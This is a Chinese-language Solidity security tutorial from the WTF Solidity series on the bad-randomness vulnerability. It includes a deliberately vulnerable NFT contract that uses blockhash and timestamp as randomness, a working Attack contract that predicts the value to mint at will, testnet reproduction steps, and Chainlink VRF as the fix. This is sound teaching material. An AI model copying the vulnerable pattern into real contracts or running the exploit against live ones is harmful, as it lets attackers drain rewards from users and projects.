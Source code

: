 ```yaml
---
title: S07. Bad Randomness
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity S07. Bad Randomness

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@yzhxxyz](https://twitter.com/yzhxxyz)

-----

这一讲，我们将介绍智能合约的坏随机数（Bad Randomness）漏洞和预防方法，这个漏洞经常在 NFT 和 GameFi 中出现，包括 Meebits，Loots，Wolf Game等。

## 伪随机数

很多以太坊上的应用都需要用到随机数，例如`NFT`随机抽取`tokenId`、抽盲盒、`gamefi`战斗中随机分胜负等等。但是由于以太坊上所有数据都是公开透明（`public`）且确定性（`deterministic`）的，它没有其他编程语言一样给开发者提供生成随机数的方法，例如`random()`。很多项目方不得不使用链上的伪随机数生成方法，例如 `blockhash()` 和 `keccak256()` 方法。

坏随机数漏洞：攻击者可以事先计算这些伪随机数的结果，从而达到他们想要的目的，例如铸造任何他们想要的稀有`NFT`而非随机抽取。更多的内容可以阅读 [WTF Solidity极简教程 第39讲：伪随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)。

![](./img/S07-1.png)

## 坏随机数案例

下面我们学习一个有坏随机数漏洞的 NFT 合约： BadRandomness.sol。

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

它有一个主要的铸造函数 `luckyMint()`，用户调用时输入一个 `0-99` 的数字，如果和链上生成的伪随机数 `randomNumber` 相等，即可铸造幸运 NFT。伪随机数使用 `blockhash` 和 `block.timestamp` 声称。这个漏洞在于用户可以完美预测生成的随机数并铸造NFT。

下面我们写个攻击合约 `Attack.sol`。

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // 提前计算随机数
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // 利用 luckyNumber 攻击
        nftAddr.luckyMint(luckyNumber);
    }
}
```

攻击函数 `attackMint()`中的参数为 `BadRandomness`合约地址。在其中，我们计算了随机数 `luckyNumber`，然后将它作为参数输入到 `luckyMint()` 函数完成攻击。由于`attackMint()`和`luckyMint()`将在同一个区块中调用，`blockhash`和`block.timestamp`是相同的，利用他们生成的随机数也相同。

## `Remix` 复现

由于 Remix 自带的 Remix VM不支持 `blockhash`函数，因此你需要将合约部署到以太坊测试链上进行复现。

1. 部署 `BadRandomness` 合约。

2. 部署 `Attack` 合约。

3. 将 `BadRandomness` 合约地址作为参数传入到 `Attack` 合约的 `attackMint()` 函数并调用，完成攻击。

4. 调用 `BadRandomness` 合约的 `balanceOf` 查看`Attack` 合约NFT余额，确认攻击成功。

## 预防方法

我们通常使用预言机项目提供的链下随机数来预防这类漏洞，例如 Chainlink VRF。这类随机数从链下生成，然后上传到链上，从而保证随机数不可预测。更多介绍可以阅读 [WTF Solidity极简教程 第39讲：伪随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)。

## 总结

这一讲我们介绍了坏随机数漏洞，并介绍了一个简单的预防方法：使用预言机项目提供的链下随机数。NFT 和 GameFi 项目方应避免使用链上伪随机数进行抽奖，以防被黑客利用。

